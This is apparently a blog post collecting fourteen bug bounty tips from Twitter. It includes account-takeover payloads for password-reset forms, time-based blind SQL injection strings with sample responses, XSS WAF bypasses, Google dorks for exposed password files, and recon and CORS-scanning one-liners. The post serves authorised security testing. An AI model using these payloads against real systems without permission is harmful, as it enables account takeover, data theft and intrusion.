



# Bug Bounty Tips #7

Here’s another dose of [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/) from the bug hunting community on Twitter, sharing their knowledge for all of us to help us find more vulnerabilities and collect bug bounties.

This is the 7th part and in each part we are publishing 10 or more tips. Let’s get to it!

## 1\. Account takeover using secondary email in password reset

By [@infosecsanyam](https://twitter.com/infosecsanyam)  
Source: [link](https://twitter.com/infosecsanyam/status/1308663822140551169)

This tip can help in finding account takeover vulnerabilities in a password reset function of a web application by supplying it with additional secondary email. Try the following payloads:

`GET /passwordreset`

-   Double parameter (aka. HPP / HTTP parameter pollution):  
    `email=victim@xyz.tld&email=hacker@xyz.tld`

-   Carbon copy:  
    `email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld`

-   Using separators:  
    `email=victim@xyz.tld,hacker@xyz.tld   email=victim@xyz.tld%20hacker@xyz.tld   email=victim@xyz.tld|hacker@xyz.tld`

-   No domain:  
    `email=victim`

-   No TLD (Top Level Domain):  
    `email=victim@xyz`

-   JSON table:  
    `{"email":["victim@xyz.tld","hacker@xyz.tld"]}`

Chances are that the web application will accept the secondary email address (hacker@xyz.tld) and in consequence send the reset link to both emails.

## 2\. Bypass email filter leading to SQL injection (JSON)

By [@HackENews](https://twitter.com/HackENews)  
Source: [link](https://twitter.com/HackENews/status/1306972009721520129)

Here’s another tip that can be helpful for testing of password reset functionalities.

Using the following payload examples with non-typical email address formats, the author was able to find SQL injection in the web application:

| Payload | Result | Injection Status | Description |
| --- | --- | --- | --- |
| {“email”:”asd@a.com”} | {“code”:2002,”status”:200,”message”:”Email not found.”} | Valid |     |
| {“email”:”asd a@a.com”} | {“code”:2002,”status”:200,”message”:”Bad format”} | Not Valid |     |
| {“email”:”\\”asd a\\”@a.com”} | {“code”:2002,”status”:200,”message”:”Bad format”} | Not Valid |     |
| {“email”:”asd(a)@a.com”} | {“code”:2002,”status”:200,”message”:”Bad format”} | Not Valid |     |
| {“email”:”\\”asd(a)\\”@a.com”} | {“code”:2002,”status”:200,”message”:”Email not found.”} | Valid |     |
| {“email”:”asd’a@a.com”} | {“code”:0,”status”:500,”message”:”Unspecified error”} | Not Valid |     |
| {“email”:”asd’or’1’=’1@a.com”} | {“code”:2002,”status”:200,”message”:”Email not found.”} | Valid |     |
| {“email”:”a’-IF(LENGTH(database())>9,SLEEP(7),0)or’1’=’1@a.com”} | {“code”:2002,”status”:200,”message”:”Bad format”} | Not Valid |     |
| {“email”:”\\”a’-IF(LENGTH(database())>9,SLEEP(7),0)or’1’=’1\\”@a.com”} | {“code”:0,”status”:200,”message”:”Successful”} | Valid | Delay: 7,854 milis |
| {“email”:”\\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\\”@a.com”} | {“code”:0,”status”:200,”message”:”Successful”} | Valid | Delay: 8,696 milis |
| {“email”:”\\”a’-IF(LENGTH(database())=11,SLEEP(7),0)or’1’=’1\\”@a.com”} | {“code”:0,”status”:200,”message”:”Successful”} | Valid | No delay |

In this example, the author was able to determine that the database name length is 10 characters long, as a proof of concept. By automating it with [Sqlmap](https://github.com/sqlmapproject/sqlmap), it would be possible to dump the whole database or even achieve RCE and get a shell, depending on the database back-end.

Note that the SQL injection was triggered by placing quotes (“) before the at (@) character, here:

-   “injection\_here”@example.com

Email addresses with quotes are valid email addresses, see [restrictions on email addresses](https://tools.ietf.org/html/rfc3696#section-3) in RFC3696.

See also related tips [BBT2-8](https://www.infosecmatter.com/bug-bounty-tips-2-jun-30/#8-e-mail-address-payloads) and [BBT5-11](https://www.infosecmatter.com/bug-bounty-tips-5-aug-17/#11-valid-email-addresses-with-evil-payloads) also using non-typical email address formats.

## 3\. Tests for identifying SQL injections 100%

By [@HackENews](https://twitter.com/HackENews)  
Source: [link](https://twitter.com/HackENews/status/1306973288594247680)

This is how to find SQL injection 100% of the time, if there is one:

```bash
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'  <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

Use these patterns against e.g.:

-   http://target.com/?q=HERE

## 4\. Test your SQL injections in an online sandbox database

By [@hackerscrolls](https://twitter.com/hackerscrolls)  
Source: [link](https://twitter.com/hackerscrolls/status/1279359291980423169)

Have you found a difficult SQL injection and want to debug it on real DB? But you don’t have time to start a real DB instance?

Use the following websites to check syntax and available SQL commands in different DBs:

-   SQL Fiddle ([sqlfiddle.com](http://sqlfiddle.com/))
-   DB Fiddle ([db-fiddle.com](https://www.db-fiddle.com/))
-   EverSQL ([eversql.com](https://www.eversql.com/))

All these sites provide an online sandboxed databases for testing of SQL queries. Here’s which databases are available on each site:

**[SQL Fiddle](http://sqlfiddle.com/) supports:**

-   Oracle
-   SQLite
-   MySQL
-   PostgreSQL
-   MS SQL Server 2017

**[DB Fiddle](https://www.db-fiddle.com/) supports:**

-   MySQL
-   SQLite
-   PostgreSQL

(multiple versions)

**[EverSQL](https://www.eversql.com/) supports:**

-   Oracle
-   MySQL
-   MariaDB
-   PostreSQL
-   MS SQL Server
-   Percona Server
-   Amazon Aurora MySQL

This can be extremely useful if you have to debug SQL injection or optimize your queries!

## 5\. Bypass WAF blocking “javascript:” in XSS

By [@SecurityMB](https://twitter.com/SecurityMB) (compiled by [@intigriti](https://twitter.com/intigriti))  
Source: [link](https://twitter.com/intigriti/status/1309104069643055111)

Are you testing for XSS via “javascript:” but it’s blocked by a WAF (Web Application Firewall) ? Try the following bypasses.

-   Add any number of \\n, \\t or \\r in the middle, e.g.:  
    `java\nscript:`

-   Add characters from \\x00-\\x20 at the beginning, e.g.:  
    `\x01javascript:`

-   Randomize the case, e.g.:  
    `jaVAscrIpt:`

Why these could work? The first two examples add a non-printable characters to the payload string such as SOH, STX, ETX, EOT, ENQ, ACK, BEL, backspace, escape key etc. These are special terminal control characters in the beginning of the ASCII table (see [man ascii](https://man7.org/linux/man-pages/man7/ascii.7.html)).

Chances are that the WAF will process the payload string in a “binary way” along with the non-printable characters. This will hopefully cause the WAF filtering rules to not match anything, whereas the actual web application will process it as text – without those non-printable special characters.

These WAF bypass techniques can be truly handy! Try using them to obfuscate any portion of your payload, not just the “javascript:” part.

## 6\. Burp Intruder without licensed Burp Pro (ffuf)

By [@InsiderPhD](https://twitter.com/InsiderPhD) (compiled by [@intigriti](https://twitter.com/intigriti))  
Source: [link](https://twitter.com/intigriti/status/1306929741950341121)

As you probably know, if you are using the free version of Burp Suite (Community Edition), there are speed limitations when using the Intruder tool. The Intruder attack is significantly throttled, slowing down the attack more and more with every request.

Using [ffuf](https://github.com/ffuf/ffuf) you can easily overcome this limitation and utilize the full speed of fuzzing with Burp. Simply turn off Proxy Interception in Burp and run ffuz with your wordlist like this:

```bash
ffuf -c -w ./wordlist.txt -u https://target/FUZZ -replay-proxy http://localhost:8080
```

This will fire up ffuf and replay every matched (non-404) result in Burp, showing it in the Proxy tab in the HTTP history:


Note that ffuf has also the `-x` option (HTTP Proxy URL) which will cause ALL requests go through the Burp and not just the matched ones:

```bash
ffuf -c -w ./wordlist.txt -u https://target/FUZZ -x http://localhost:8080
```

You will then see ALL requests displayed in Burp.

In theory, the traffic of wufzz and other similar tools can also achieve similar effects through proxy. This is really great if you don’t have Burp Pro, but want to fuzz really quickly!

Here’s where to get ffuf:

-   [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)

## 7\. How to quickly identify session invalidation issues

By [@Begin\_hunt](https://twitter.com/Begin_hunt)  
Source: [link](https://twitter.com/Begin_hunt/status/1307993703651270656)

This is a quick tip to quickly find whether the web application is properly invalidating sessions after logout or if there are any caching control security issues:

1.  Log in to the application
2.  Navigate around the pages
3.  Logout
4.  Press ( Alt + left-arrow ) buttons
5.  If you are logged in or can view the pages navigated earlier by the user, then give yourself a pat.

Such application behavior could indicate at least a P4 bug with root cause either:

-   Improper session invalidation (cookies are still valid after logout)
-   Lack of security headers
-   Insecure cache controls

These kinds of bugs present a security risk in schools, libraries, internet cafes and similar places, where computers are often reused by multiple people.

If a person was browsing an important page with sensitive information on it and logged out, then another person comes and clicks back (because the first person didn’t close the browser), then the sensitive data could be exposed.

## 8\. Easy information disclosure with httpx

By [@Alra3ees](https://twitter.com/Alra3ees)  
Source: [link](https://twitter.com/Alra3ees/status/1309299063653896194)

Using [httpx](https://github.com/projectdiscovery/httpx) we can easily identify whether a list of hosts is exposing some interesting endpoint such as a server status page, a diagnostic web console or some other info page which could contain sensitive information. Here are three interesting cases:

1) Check if any of the hosts is exposing the **Apache server status** page:

```bash
cat hosts.txt | httpx -path /server-status?full=true -status-code -content-length
```

2) Check if any of the hosts is exposing the **JBoss web console**:

```bash
cat hosts.txt | httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -path /web-console/ -status-code -content-length
```

3) Check if any of the hosts is exposing the **phpinfo debug page**:

```bash
cat hosts.txt | httpx -path /phpinfo.php -status-code -content-length -title
```

All these cases could provide valuable information including sensitive information about the target system, its configuration, disclose physical file path locations, internal IP addresses and many other things.

**Protip**: There are many more endpoints (URIs) that we could check for. Have a look on the dedicated [Content-discovery](https://github.com/imrannissar/Content-discovery) github repository where all three aforementioned cases would be identified using these particular wordlists:

-   [https://github.com/imrannissar/Content-discovery/blob/master/quickhits.txt](https://github.com/imrannissar/Content-discovery/blob/master/quickhits.txt) (2376 entries)
-   [https://github.com/imrannissar/Content-discovery/blob/master/cgis.txt](https://github.com/imrannissar/Content-discovery/blob/master/cgis.txt) (3388 entries)
-   [https://github.com/imrannissar/Content-discovery/blob/master/combined.txt](https://github.com/imrannissar/Content-discovery/blob/master/combined.txt) (8887 entries)
-   [https://github.com/imrannissar/Content-discovery/blob/master/content\_discovery\_all.txt](https://github.com/imrannissar/Content-discovery/blob/master/content_discovery_all.txt) (373535 entries)

## 9\. Recon leading to exposed debug endpoints

By [@\_justYnot](https://twitter.com/_justYnot)  
Source: [link](https://twitter.com/_justYnot/status/1306858674401415169)

Here’s an insightful little bug bounty write-up on how rewarding a proper reconnaissance can be. In this case the author was able to find a sensitive information disclosure issue. We can learn some tricks here and see how bug hunters think.

Here’s what [@\_justYnot](https://twitter.com/_justYnot) did exactly:

1.  Run `subfinder -d target.com | httprobe -c 100 > target.txt` . Got around 210 subdomains.
2.  Run `cat target.txt | aquatone -out ~aquatone/target` to capture web screenshots.
3.  Checked every screenshot and found an interesting subdomain.
4.  Tried for some low hanging bugs XSS, open redirect etc, but nothing worked.
5.  Then he decided to brute force the directories, he used [ffuf](https://github.com/ffuf/ffuf) and one of the wordlists from [@DanielMiessler](https://twitter.com/DanielMiessler) SecLists.
6.  Run `ffuf -w path/to/wordlist.txt -u https://sub.target.com/FUZZ -mc all -c -v`
7.  And after some time he got an endpoint which was exposing `/debug/pprof` which had a lot of sensitive info such as debug info, traces etc.
8.  Reported the issue to company and they quickly fixed it and acknowledged his work!

This is a perfect example why a detailed and thorough reconnaissance is so important.

Discovering an exposed debug endpoint could give an attacker detailed information about inner workings of the remote system which could then be used for more directed attacks.

Here are links to all the mentioned tools:

-   [https://github.com/projectdiscovery/subfinder](https://github.com/projectdiscovery/subfinder)
-   [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
-   [https://github.com/michenriksen/aquatone](https://github.com/michenriksen/aquatone)
-   [https://github.com/tomnomnom/httprobe](https://github.com/tomnomnom/httprobe)
-   [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)

## 10\. Find subdomains using ASNs with Amass

By [@ofjaaah](https://twitter.com/ofjaaah)  
Source: [l](https://twitter.com/_justYnot/status/1306858674401415169)[i](https://twitter.com/ofjaaah/status/1307484622368849920)[nk](https://twitter.com/_justYnot/status/1306858674401415169)

Here’s a powerful recon tip to find subdomains of our target organization using the [OWASP Amass](https://github.com/OWASP/Amass) tool:

```bash
amass intel -org yahoo -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500
```

This is what the command does in detail:

1.  Get a list of ASNs (Autonomous System Numbers) of the target organization (e.g. yahoo)
2.  Extract only a list of AS numbers and separate them by comma
3.  For each identified ASN, find list of domain names that are associated with the ASN

Amass has very powerful capabilities when it comes to attack surface mapping. It uses many different 3rd party APIs and data sources for its function.



Here’s where to get Amass:

-   [https://github.com/OWASP/Amass](https://github.com/OWASP/Amass)

## 11\. Find JavaScript files with httpx and subjs

By [@ofjaaah](https://twitter.com/ofjaaah)  
Source: [link](https://twitter.com/ofjaaah/status/1304232510402985987)

JavaScript can hide a lot of precious information, API, tokens, subdomains etc.

How can we easily get a list of JavaScript files hosted on our target domains (and subdomains)? Check this super useful one-liner:

```bash
cat domains | httpx -silent | subjs | anew
```



Easy as that!

The command will go through all specified domains, try to access them and produce valid (live) URLs. Then the [subjs](https://github.com/lc/subjs) tool will do its magic and extract all JavaScript links from the URLs.

Here’s what you need for this combo to work:

-   [https://github.com/projectdiscovery/httpx](https://github.com/projectdiscovery/httpx)
-   [https://github.com/tomnomnom/anew](https://github.com/tomnomnom/anew)
-   [https://github.com/lc/subjs](https://github.com/lc/subjs)

## 12\. Unpack exposed JavaScript source map files

By [@nullenc0de](https://twitter.com/nullenc0de)  
Source: [link](https://twitter.com/nullenc0de/status/1306665103744552961)

Here’s a cool trick to find exposed JavaScript source map files and extract sensitive information from them:

1.  Find JavaScript files
2.  Run `ffuf -w js_files.txt -u FUZZ -mr "sourceMappingURL"` to identify JavaScript files with source map defined
3.  Download the source maps
4.  Use [unmap](https://github.com/chbrown/unmap) to unpack them locally
5.  Browse configs or just grep for API keys / creds

What are JavaScript source map files? JavaScript source map files are debugging files containing original, uncompressed (“unminified”), unobfuscated (“unuglified”) source code of the deployed JavaScript code (bundle). These files help developers to debug their code remotely.

Now, the path to the source map is usually specified in the end of the JavaScript file, e.g. timepickerbundle.js would have this in the end:

```bash
... js code ...
//# sourceMappingURL=timepickerbundle.js.map
```

Using the [unmap](https://github.com/chbrown/unmap) tool, we can unpack these files into their original form, into a directory structure and browse them locally.

Keep in mind, however, that the JavaScript source map files should never be exposed (uploaded) on a production site, since they can contain sensitive information. Therefore there is a high chance that you will only get bunch of 404s and nothing to unpack.

## 13\. List of 14 Google dorks for recon and easy wins

By [@drok3r](https://twitter.com/drok3r)  
Source: [link1](https://twitter.com/drok3r/status/1304081446865309696), [link2](https://twitter.com/drok3r/status/1304444086347345920), [link3](https://twitter.com/drok3r/status/1305531753302548480), [link4](https://twitter.com/drok3r/status/1305894392759189504), [link5](https://twitter.com/drok3r/status/1306257032383668224), [link6](https://twitter.com/drok3r/status/1306619923628584960), [link7](https://twitter.com/drok3r/status/1306982814689013760)

Here’s a compilation of 14 interesting Google hacking dorks that can help with recon about our target domain and also find some easy wins:

```bash
# Login panel search
site:target.com inurl:admin | administrator | adm | login | l0gin | wp-login

# Login panel search #2
intitle:"login" "admin" site:target.com

# Admin panel search
inurl:admin site:target.com

# Search for our target's exposed files
site:target.com ext:txt | ext:doc | ext:docx | ext:odt | ext:pdf | ext:rtf | ext:sxw | ext:psw | ext:ppt | ext:pptx | ext:pps | ext:csv | ext:mdb

# Get open directories (index of)
intitle:"index of /" Parent Directory site:target.com

# Search for exposed admin directories
intitle:"index of /admin" site:target.com

# Search for exposed password directories
intitle:"index of /password" site:target.com

# Search for directories with mail
intitle:"index of /mail" site:target.com

# Search for directories containing passwords
intitle:"index of /" (passwd | password.txt) site:target.com

# Search for directories containing .htaccess
intitle:"index of /" .htaccess site:target.com

# Search for .txt files with passwords
inurl:passwd filetype:txt site:target.com

# Search for potentially sensitive database files
inurl:admin filetype:db site:target.com

# Search for log files
filetype:log site:target.com

# Search for other sites that are linking to our target
link:target.com -site:target.com
```

Could be quite useful indeed!

**Protip**: Try also these free excellent resources:

-   [Google Hacking dorks](https://pentest-tools.com/information-gathering/google-hacking) maintained by Pentest-Tools.
-   [Google Hacking Database](https://www.exploit-db.com/google-hacking-database) maintained by Offensive Security.

## 14\. Find web servers vulnerable to CORS attacks

By [@ofjaaah](https://twitter.com/ofjaaah)  
Source: [link](https://twitter.com/ofjaaah/status/1304847616228745218)

The following one-liner is able to identify whether any subdomain under the target domain name is vulnerable to cross-origin resource sharing (CORS) based attacks:

```bash
assetfinder fitbit.com | httpx -threads 300 -follow-redirects -silent | rush -j200 'curl -m5 -s -I -H "Origin: evil.com" {} | [[ $(grep -c "evil.com") -gt 0 ]] && printf "\n3[0;32m[VUL TO CORS] 3[0m{}"' 2>/dev/null
```

Here’s what the command does in detail:

1.  Collect subdomains of the target domain (e.g. fitbit.com)
2.  Identify valid (live) subdomains and produce list of URLs
3.  Access each URL and include “Origin: evil.com” HTTP header in each request
4.  Look for “evil.com” in the replies headers
5.  If matched, print it out



If we see something like that, it means that the identified sites have misconfigured CORS policy and could potentially disclose sensitive information to any arbitrary 3rd party website. This includes session cookies, API keys, CSRF tokens and other sensitive data.

For more information about CORS attacks, see the [CORS security tutorial with examples](https://portswigger.net/web-security/cors) made by PortSwigger.

In order for this combo to work, install the following tools:

-   [https://github.com/tomnomnom/assetfinder](https://github.com/tomnomnom/assetfinder)
-   [https://github.com/projectdiscovery/httpx](https://github.com/projectdiscovery/httpx)
-   [https://github.com/shenwei356/rush](https://github.com/shenwei356/rush)

## Conclusion

That’s it for this part of the [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/).

Massive thanks to all the authors for sharing their tips:

-   [@infosecsanyam](https://twitter.com/infosecsanyam)
-   [@HackENews](https://twitter.com/HackENews)
-   [@hackerscrolls](https://twitter.com/hackerscrolls)
-   [@SecurityMB](https://twitter.com/SecurityMB)
-   [@intigriti](https://twitter.com/intigriti)
-   [@InsiderPhD](https://twitter.com/InsiderPhD)
-   [@Begin\_hunt](https://twitter.com/Begin_hunt)
-   [@Alra3ees](https://twitter.com/Alra3ees)
-   [@\_justYnot](https://twitter.com/_justYnot)
-   [@ofjaaah](https://twitter.com/ofjaaah)
-   [@nullenc0de](https://twitter.com/nullenc0de)
-   [@drok3r](https://twitter.com/drok3r)

Make sure to follow them on Twitter, they will help you stay on top of the bug bounty game!
